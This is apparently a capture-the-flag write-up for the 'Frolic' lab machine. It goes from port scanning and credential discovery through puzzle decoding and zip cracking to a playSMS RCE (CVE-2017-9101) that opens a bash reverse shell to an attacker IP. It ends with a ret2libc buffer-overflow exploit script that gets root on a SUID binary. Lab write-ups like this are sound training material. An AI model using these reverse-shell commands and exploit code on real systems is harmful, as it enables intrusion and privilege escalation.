

# Frolic

## Machine Info


## Recon

- nmap

```console
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open              Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x js -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.111:9999/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/admin/]
/test                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/test/]
/dev                  (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/dev/]
/backup               (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/backup/]
/loop                 (Status: 301) [Size: 194] [--> http://10.10.10.111:9999/loop/]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ feroxbuster -u http://10.10.10.111:9999/

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.111:9999/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l       11w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       13w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       13w      194c http://10.10.10.111:9999/admin => http://10.10.10.111:9999/admin/
301      GET        7l       13w      194c http://10.10.10.111:9999/test => http://10.10.10.111:9999/test/
200      GET       28l       71w      637c http://10.10.10.111:9999/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup => http://10.10.10.111:9999/backup/
301      GET        7l       13w      194c http://10.10.10.111:9999/dev => http://10.10.10.111:9999/dev/
301      GET        7l       13w      194c http://10.10.10.111:9999/admin/css => http://10.10.10.111:9999/admin/css/
301      GET        7l       13w      194c http://10.10.10.111:9999/admin/js => http://10.10.10.111:9999/admin/js/
301      GET        7l       13w      194c http://10.10.10.111:9999/dev/backup => http://10.10.10.111:9999/dev/backup/
200      GET        1l        1w        5c http://10.10.10.111:9999/dev/test
301      GET        7l       13w      194c http://10.10.10.111:9999/loop => http://10.10.10.111:9999/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup/loop => http://10.10.10.111:9999/backup/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop/loop => http://10.10.10.111:9999/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup/loop/loop => http://10.10.10.111:9999/backup/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/backup/loop/loop/loop => http://10.10.10.111:9999/backup/loop/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop/loop/loop => http://10.10.10.111:9999/loop/loop/loop/
301      GET        7l       13w      194c http://10.10.10.111:9999/loop/loop/loop/loop => http://10.10.10.111:9999/loop/loop/loop/loop/
```

- `http://10.10.10.111:9999/dev/backup/` -> `/playsms`

- smb -> nothing

```console
$ smbmap -H $IP

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.111:445        Name: 10.10.10.111              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (frolic server (Samba, Ubuntu))

```

## Foothold

### http port 1880

- recon -> no attack vector

```console
<!--
  Copyright JS Foundation and other contributors, http://js.foundation

  Licensed under the Apache License, Version 2.0 (the "License");
  you may not use this file except in compliance with the License.
  You may obtain a copy of the License at

  http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
```

### http port 9999: discover cred

- nginx defualt page


- /test


- /backup -> `password.txt user.txt loop/`

  - http://10.10.10.111:9999/backup/password.txt -> imnothuman

  - http://10.10.10.111:9999/backup/user.txt -> admin

- `/dev/backup/` -> `/playsms`


- html source code



- `/admin`: html source code


- login and find code -> **Ook!**

- Ook! is a joke esoteric programming language created by David Morgan-Mar. It is identical to Brainfuck, except that the instructions are changed into Orangutan words.


- decode this string in https://www.dcode.fr/ook-language


- `/asdiSIAJJ0QWE9JAS`

```console
$ curl http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ | base64 -d | xxd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   487    0   487    0     0   6299      0 --:--:-- --:--:-- --:--:--  6324
00000000: 504b 0304 1400 0900 0800 c389 374d 23fe  PK..........7M#.
00000010: 5b14 b000 0000 6902 0000 0900 1c00 696e  [.....i.......in
00000020: 6465 782e 7068 7055 5409 0003 857c a75b  dex.phpUT....|.[
00000030: 857c a75b 7578 0b00 0104 0000 0000 0400  .|.[ux..........
00000040: 0000 005e 44e6 104a 9f73 b268 8a29 9a1b  ...^D..J.s.h.)..
00000050: 9550 f06e 0ba9 bf53 73e4 024a 771a 11dc  .P.n...Ss..Jw...
00000060: 8ee5 a034 e2f6 d98f 6bee 7ad0 128a 55c8  ...4....k.z...U.
00000070: 96ec 2b58 ba7f e050 c8e1 12e1 b687 a4ea  ..+X...P........
00000080: d0bb e278 5f13 c04e 895b fd8d 8453 aaea  ...x_..N.[...S..
00000090: 38f2 83f2 e20f 914a 3253 c72a 8303 44d0  8......J2S.*..D.
000000a0: 8d7d 9338 6454 0e51 026b de10 cad7 e3e4  .}.8dT.Q.k......
000000b0: fb6a 5f9f 8bf9 18e9 94c0 2778 7f63 90c2  .j_.......'x.c..
000000c0: 16dd 8f74 beb2 3735 51ac 0b9a 8a03 0e95  ...t..75Q.......
000000d0: 106b 032c 34b5 d962 29be 3446 b5e9 0609  .k.,4..b).4F....
000000e0: ffba 84e3 96ea e9ef c726 7132 6f88 57d4  .........&q2o.W.
000000f0: 9ce3 3950 4b07 0823 fe5b 14b0 0000 0069  ..9PK..#.[.....i
00000100: 0200 0050 4b01 021e 0314 0009 0008 00c3  ...PK...........
00000110: 8937 4d23 fe5b 14b0 0000 0069 0200 0009  .7M#.[.....i....
00000120: 0018 0000 0000 0001 0000 00a4 8100 0000  ................
00000130: 0069 6e64 6578 2e70 6870 5554 0500 0385  .index.phpUT....
00000140: 7ca7 5b75 780b 0001 0400 0000 0004 0000  |.[ux...........
00000150: 0000 504b 0506 0000 0000 0100 0100 4f00  ..PK..........O.
00000160: 0000 0301 0000 0000                      ........
```

- this is a zip file with password -> john to crack

```console
$ unzip a.zip
Archive:  a.zip
[a.zip] index.php password:

$ zip2john a.zip > hash
ver 2.0 efh 5455 efh 7875 a.zip/index.php PKZIP Encr: TS_chk, cmplen=176, decmplen=617, crc=145BFE23 ts=89C3 cs=89c3 type=8

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (a.zip/index.php)
1g 0:00:00:00 DONE (2024-01-14 02:42) 33.33g/s 682666p/s 682666c/s 682666C/s 123456..michelle4
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

$ cat index.php
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

- hex numbers -> xxd to exhibit using ascii -> in ordinal order and reverse order -> base64 decode -> brainfuck code

```console
$ cat index.php | xxd -p -r
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==

$ cat index.php | xxd -p -r | tr -d '\r\n' | base64 -d
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```

- brainfuck -> [Brainfuck Language - Online Decoder, Translator, Interpreter (dcode.fr)](https://www.dcode.fr/brainfuck-language)


- `admin:idkwhatispass`


### CVE-2017-9101 RCE

- https://github.com/jasperla/CVE-2017-9101

- **POC**

```console
$ python playsmshell.py --url http://10.10.10.111:9999/playsms --username admin --password idkwhatispass -c 'id'
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[*] Attempting to execute payload
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- **EXP**

```console
$ python playsmshell.py --url http://10.10.10.111:9999/playsms --username admin --password idkwhatispass -c 'bash -c "bash -i >& /dev/tcp/10.10.14.54/1234 0>&1"'
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[*] Attempting to execute payload
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.111] 41500
bash: cannot set terminal process group (1214): Inappropriate ioctl for device
bash: no job control in this shell
www-data@frolic:~/html/playsms$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@frolic:~/html/playsms$ uname -a
uname -a
Linux frolic 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 athlon i686 GNU/Linux
www-data@frolic:~/html/playsms$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:a5:d9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.111/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:a5d9/64 scope link
       valid_lft forever preferred_lft forever
www-data@frolic:~/html/playsms$
```

## Privilege Escalation

- SUID files enum

```console
www-data@frolic:~$ find / -perm -u=s 2>/dev/null
/sbin/mount.cifs
/bin/mount
/bin/ping6
/bin/fusermount
/bin/ping
/bin/umount
/bin/su
/bin/ntfs-3g
/home/ayush/.binary/rop
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

- `/home/ayush/.binary/rop` ->  analyse this binary elf file

```console
www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
0
```

```console
$ file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=59da91c100d138c662b77627b65efbbc9f797394, not stripped

$ checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- **stack overflow vulnerability**


```console
$ ./rop aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae
zsh: segmentation fault  ./rop
```

### find offset


```console
$ cyclic -l naaa
52
```

### find function address

- find addr of system, /bin/sh, exit

```console
www-data@frolic:/home/ayush/.binary$ ldd rop

        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)

www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@@"
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@@"
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
```

- exploit template

```python
system = 0xb7e19000 + 0x0003ada0
exit = 0xb7e19000 + 0x0002e9d0
binsh = 0xb7e19000 + 0x0015ba0b

payload = "A" * 52 + SYSTEM + EXIT + BINSH # addr format -> 32bit
```

### exploit

- exp code

```python
import struct
import subprocess

system = str(hex(0xb7e19000 + 0x0003ada0)).rstrip('L')
exit = str(hex(0xb7e19000 + 0x0002e9d0)).rstrip('L')
binsh = str(hex(0xb7e19000 + 0x0015ba0b)).rstrip('L')

payload = "A" * 52 + str(struct.pack("I", int(system, 16))) + str(struct.pack("I", int(exit, 16))) + str(struct.pack("I", int(binsh, 16)))

subprocess.call(["/home/ayush/.binary/rop", payload])
```

- exp process

```console
www-data@frolic:/tmp$ curl http://10.10.14.54/a.py -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   390  100   390    0     0   4924      0 --:--:-- --:--:-- --:--:--  4936
www-data@frolic:/tmp$ python a.py
                      python a.py
python a.py
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# uname -a
Linux frolic 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 athlon i686 GNU/Linux
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:a5:d9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.111/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:a5d9/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> ports' path recon -> hackable login page -> cred found -> Ook! code -> another web path -> hex code -> actually a zip file -> crack password -> hex code -> base64 decode -> brainfuck code -> password -> playsms login -> CVE RCE -> user shell -> SUID enum -> stack overflow vuln -> rop -> root shell
